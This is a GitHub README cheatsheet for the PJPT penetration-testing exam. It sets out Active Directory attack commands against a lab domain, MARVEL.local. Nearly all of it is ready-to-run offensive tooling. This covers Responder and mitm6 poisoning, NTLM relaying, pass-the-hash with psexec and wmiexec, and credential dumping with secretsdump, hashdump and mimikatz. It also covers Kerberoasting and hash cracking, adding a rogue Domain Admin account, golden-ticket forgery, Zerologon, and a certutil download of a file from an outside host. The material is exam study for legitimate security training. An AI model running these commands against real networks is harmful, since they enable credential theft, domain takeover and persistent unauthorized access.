 # PJPT-cheatsheet
Cheatsheet I used to pass the PJPT exam

To learn more about my exam experience: https://www.bighandsecurity.com/pjpt/

Active Directory Exploitation:

## Network Reconnaissance and Mapping

### Initial Network Probing
```bash
# Network Detection Command
responder -I tun0 -dwPv 

# Accessing Network Resources
//attacker_ip
```

#### SMB Environment Assessment
1. Security Configuration Check
```bash
nmap --script=smb2-security-mode.nse -p445 10.0.0.0/24
```

2. Network Relay Configuration
```bash
# Configure Connection Settings
nano /etc/responder/Responder.conf
# Disable unnecessary protocols

# Establish Network Relay
sudo ntlmrelayx.py -tf targets.txt -smb2support
```

### Remote System Access Methods

#### Metasploit Connection
```bash
use exploit/windows/smb/psexec
set SMBDomain MARVEL.local
set SMBUser fcastle
set SMBPass Password1
```

#### Alternative Access Techniques
```bash
# Direct Authentication Approach
psexec.py marver.local/fcastle:'Password1'@10.0.0.25

# Credential Hash Authentication
psexec.py administrator@10.0.0.25 --hashes [LM:NTLM]
```

#### Alternative Execution Strategy
```bash
wmiexec.py administrator@192.168.138.137 --hashes [LM-HASH]:[NTLM-HASH]
```

### IPv6 Network Exploitation
```bash
# Domain-Specific IPv6 Attack
sudo mitm6 -d marvel.local

# NTLM Redirection
ntlmrelayx.py -6 -t ldaps://192.168.138.136 -wh fakewpad.marvel.local -l lootme
```

### Domain Information Gathering

#### Enumeration Tools
```bash
# LDAP Domain Intelligence
sudo ldapdomaindump ldaps://192.168.138.136 -u 'MARVEL\fcastle' -p Password1

# Advanced Network Mapping
sudo bloodhound-python -d MARVEL.local -u fcastle -p Password1 -ns [DC-IP] -c all
```

### Credential Extraction Techniques

#### Network Credential Verification
```bash
crackmapexec smb 10.0.0.0/24 -u fcastle -d MARVEL.local -p Password1
```

#### Credential Dump Methods
```bash
# Meterpreter Extraction
use windows/smb/psexec
run
hashdump

# Comprehensive Credential Collection
secretsdump.py MARVEL.local/fcastle:Password1@10.0.0.25
```

### Advanced Penetration Techniques

#### Service Principal Name Extraction
```bash
# SPN Discovery
python GetUserSPNs.py MARVEL.local/fcastle:Password1 -dc-ip [DC_IP] -request

# Hash Cracking
hashcat -m 13100 hash.txt /usr/share/wordlists/rockyou.txt
```

#### Token Manipulation
```bash
# Token Inventory
meterpreter > list_tokens -u

# User Token Impersonation
meterpreter > impersonate_token MARVEL\\administrator
```

### Domain Management
```bash
# User Creation
net user /add hawkeye Password1@ /domain

# Administrative Group Addition
net group "Domain Admins" hawkeye /ADD /DOMAIN
```

### Advanced Persistent Threat Techniques

#### Golden Ticket Generation
```bash
# Credential Preparation
mimikatz # privilege::debug
mimikatz # lsadump::lsa /inject /name:krbtgt

# Ticket Fabrication
kerberos::golden /User:Administrator /domain:marvel.local /sid:[SID] /krbtgt:[HASH] /id:[ID] /ptt
```

### Vulnerability Exploitation

#### Specific CVE Approaches
```bash
# Zerologon Exploitation
secretsdump.py -just-dc MARVEL/HYDRA-DC\$@192.168.138.132

# Print Spooler Vulnerability Check
rpcdump.py @192.168.1.10 | egrep 'MS-RPRN|MS-PAR'
```

### Data Transfer Methods
```bash
# Windows File Download
certutil.exe --urlcache -f http://10.10.10.10/file.txt file.txt

# Python HTTP Share
python3 -m http.server --bind [your_ip] [port]
```
